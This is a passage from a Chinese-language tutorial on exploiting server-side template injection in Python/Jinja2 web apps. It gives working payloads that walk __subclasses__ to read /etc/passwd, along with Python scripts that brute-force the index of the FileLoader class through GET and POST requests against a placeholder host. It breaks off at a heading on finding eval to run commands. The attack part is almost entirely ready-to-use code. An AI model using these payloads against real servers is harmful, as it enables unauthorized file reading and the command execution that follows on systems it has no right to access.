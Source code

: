 然后我们要做的就是积累一些可以利用的类了，比如python2中的file类可以直接用来读取文件，同时注意python2和python3的区别，可以看到，python3中已经不存在了，我们可以用`<class '_frozen_importlib_external.FileLoader'>` 这个类去读取文件。

```python
{{[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()}}
{{().__class__.__bases__[0].__subclasses__()[94]["get_data"](0, "/etc/passwd")}}
```

python3的版本不同，要利用的类的位置就不同，索引号就不同，我们需要编写一下遍历python环境中类的脚本：

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}
#http请求头，可以用抓包工具抓一份自己的。
for i in range(500):
    url = "http://xxx.xxx.xxx.xxx:xxxx/?get参数={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"

    res = requests.get(url=url,headers=headers)
    if 'FileLoader' in res.text: #以FileLoader为例
        print(i)

# 得到编号为79
```

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}
#http请求头，可以用抓包工具抓一份自己的。
for i in range(500):
    url = "http://xxx.xxx.xxx.xxx:xxxx/"
    postPara = {"post参数":"{{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"}
    res = requests.post(url=url,headers=headers,data=postPara)
    if 'FileLoader' in res.text: #以FileLoader为例，查找其他命令时就用其他子类
        print(i)

# 得到编号为79
```

常用的子类
-----

执行命令的子类

- 可以用来执行命令的类有很多，其基本原理就是**遍历含有eval函数即os模块的子类**，利用这些子类中的eval函数即os模块执行命令。

### 寻找内建函数 eval 执行命令
